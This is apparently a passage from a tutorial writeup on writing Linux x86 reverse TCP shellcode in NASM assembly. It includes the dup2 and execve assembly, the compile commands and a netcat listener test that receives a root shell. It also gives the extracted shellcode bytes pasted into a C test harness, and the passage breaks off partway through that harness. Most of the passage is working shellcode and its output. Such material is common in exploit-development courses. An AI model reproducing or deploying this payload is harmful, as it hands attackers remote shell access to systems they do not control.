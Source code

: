```nasm
mov al, 0x3f      ; EAX Syscall dup2() for STDIN STDOUT STDERR
int 0x80          ; execute dup2()
inc ecx           ; increase EAX by 1
cmp cl, 0x4       ; compare cl to 4, if it is 4 the flag will be set
jne dup2loop      ; Jumps to the specified location flag is set

xor edx, edx
push edx          ; Push NULL onto the stack 
push 0x68732f2f   ; Push "hs//" onto the stack 
push 0x6e69622f   ; Push "nib/" onto the stack 
mov ebx, esp      ; point ebx to stack
mov al, 0xb       ; execve
xor ecx, ecx
int 0x80          ; execute execve
```

## Compiling & Testing the Assembly Shellcode
### Compile the Shellcode
```console
nasm -f elf32 revTcpSh.asm -o revTcpSh.o
ld revTcpSh.o -o revTcpSh
```

### Testing the reverse shell program
##### Terminal Window 1
```console
./revTcpSh
```
##### Terminal Window 2
```console
nc.traditional -nvlp 1337
listening on [any] 1337 ...
connect to [127.1.1.1] from (UNKNOWN) [127.0.0.1] 36505
id
uid=0(root) gid=0(root) groups=0(root)
```
## Testing if the Shellcode works when used in another program
### Extracting the Shellcode Hex from the compiled binary
```console
./objdump2hex.sh revTcpSh
"\x31\xc0\xb0\x66\x31\xdb\x43\x31\xc9\x51\x53\x6a\x02\x89"
"\xe1\xcd\x80\x96\x31\xc0\x43\x68\x7f\x01\x01\x01\x66\x68"
"\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xb0"
"\x66\xcd\x80\x87\xde\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9"
"\x04\x75\xf6\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62"
"\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\xcd\x80"
```
### Adding the shellcode to another program
This is the C program we will use to see if our shellcode works while ran in a different host program. After modifying our program, we will compile it. 
```c
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\x43\x31\xc9\x51\x53\x6a\x02\x89"
"\xe1\xcd\x80\x96\x31\xc0\x43\x68\x7f\x01\x01\x01\x66\x68"
"\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xb0"
"\x66\xcd\x80\x87\xde\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9"
"\x04\x75\xf6\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62"
```

[1]: 1